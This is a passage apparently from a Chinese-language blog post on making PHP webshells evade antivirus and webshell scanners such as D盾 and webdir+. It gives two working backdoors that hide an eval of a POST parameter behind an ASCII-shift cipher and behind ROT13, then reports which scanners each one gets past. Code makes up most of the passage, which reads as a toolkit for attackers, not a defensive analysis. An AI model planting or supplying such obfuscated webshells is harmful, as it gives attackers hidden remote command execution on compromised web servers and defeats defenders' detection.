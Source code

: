     ?>
    ```
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyOyHNbez6DSJibON96gjhApFQ1YRJVKEZMOmYbJT0QAYK9MQzapjDWWg/640?wx_fmt=png)
    
*   ascii 码移位 payload（凯撒加密）
    
    ```
    <?php
    class FKPC{
          function __construct(){
          $this->TQYV = "bs^i%!\MLPQXwbolZ&8";
          $this->WZDM = @HHGJ($this->TQYV);
          @eval("/*#jkskjwjqo*/".$this->WZDM."/*sj#ahajsj*/");
          }}
    new FKPC();
    function HHGJ($UyGv) {
    $svfe = [];
    $mxAS = '';
    $f = $UyGv;
    for ($i=0;$i<strlen($f);$i++)
    {
      $svfe[] = chr((ord($f[$i])+3));
    }
    $mxAS = implode($svfe);
    return $mxAS ;
    }
    ?>
    ```
    
    ![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyYNlzJhc2ULtEpakNa1WlXQdiaCoouRxXS9XeYQ1P6w7ogPBzxDvGOxw/640?wx_fmt=png)
    

居然没过 webdir+

那如何解决呢 我们后面再说 当然应付 D 盾还是绰绰有余了  
![](https://mmbiz.qpic.cn/mmbiz_png/bMyibjv83iavzP8tGlJ0LAqI5btOXNcjZyB1IpAv45xKG7Uu1LxN6VsM7X2zKSrkLib1Iy9PsvtrP6gx8NjS1zeMg/640?wx_fmt=png)  
Rot13 加密 payload

```
<?php

class KUYE{
        public $DAXW = null;
        public $LRXV = null;
        function __construct(){
        $this->DAXW = 'riny($_CBFG[mreb]);';
        $this->LRXV = @str_rot13($this->DAXW);
        @eval("/*GnSpe=u*/".$this->LRXV."/*GnSpe=u*/");
        }}
new KUYE();

?>
```
